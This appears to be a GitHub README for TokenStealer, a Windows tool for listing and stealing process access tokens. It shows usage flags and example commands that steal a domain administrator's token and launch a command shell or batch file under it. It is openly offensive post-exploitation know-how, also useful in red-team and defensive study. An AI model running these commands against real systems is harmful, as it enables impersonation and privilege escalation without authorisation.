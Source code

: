 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br>
Clearly, you will require Impersonation or AssignPrimary privilege and Debug privilege to access all processes.<br>
Typically, you would run the tool with the highest local privileges, such as SYSTEM.
<br><br>
TokenStealer.exe<br>
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] v1.0 @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all user's token<br>
         -e: list all user's token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]:[SessionId]<br>
         -p: `<pid>` list/steal  token from specfic  process pid<br>
         -u: `<user>` list/steal token of user<br>
         -c: `<command>` command to execute with token <br>
         -t: force use of impersonation Privilege <br>
         -b: `<token level>` needed token type: 1=Primary,2=Impersonation,3=Delegation <br>
         -s: `<SessionId>` list/steal token from specific Session ID
<br><br>
=Examples=<br><br>
<br><b>TokenStealer.exe -e -b 1 </b> -> list all primary tokens<br>
<br><b>TokenStealer.exe -l -p 100 </b>-> list all tokens in process pid 100<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe </b>-> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t </b>-> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 </b>-> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -s 2 </b>-> steal a token of the user in specific SessionID and execute an interactive  command shell using the AssingPrimary privilege if available<be>
<img src="https://github.com/decoder-it/TokenStealer/blob/master/Capture.PNG" alt="Alt text" title="Optional title">




